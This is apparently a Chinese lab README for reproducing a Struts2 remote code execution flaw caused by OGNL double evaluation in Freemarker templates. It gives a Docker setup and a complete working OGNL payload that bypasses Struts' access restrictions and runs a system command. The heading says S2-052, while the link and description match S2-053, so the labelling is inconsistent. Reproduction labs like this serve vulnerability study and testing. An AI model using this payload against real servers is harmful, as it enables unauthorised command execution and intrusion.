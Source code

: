 # S2-052 远程代码执行漏洞

影响版本: Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12

漏洞详情: 

 - http://struts.apache.org/docs/s2-053.html
 - https://mp.weixin.qq.com/s?__biz=MzU0NTI4MDQwMQ==&mid=2247483663&idx=1&sn=6304e1469f23c33728ab5c73692b675e

## 测试环境搭建

```
docker-compose up -d
```

环境运行后，访问`http://your-ip:8080/hello.action`即可看到一个提交页面。

## 漏洞复现

Struts2在使用Freemarker模板引擎的时候，同时允许解析OGNL表达式。导致用户输入的数据本身不会被OGNL解析，但由于被Freemarker解析一次后变成离开一个表达式，被OGNL解析第二次，导致任意命令执行漏洞。

输入如下Payload即可成功执行命令：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}

```

![](01.png)

说明：有的同学说无法复现漏洞，经过我的测试，我发现上述Payload末尾的**换行**不能掉（也就是说payload后面必须跟一个换行，虽然我也不知道为什么），再发送即可成功。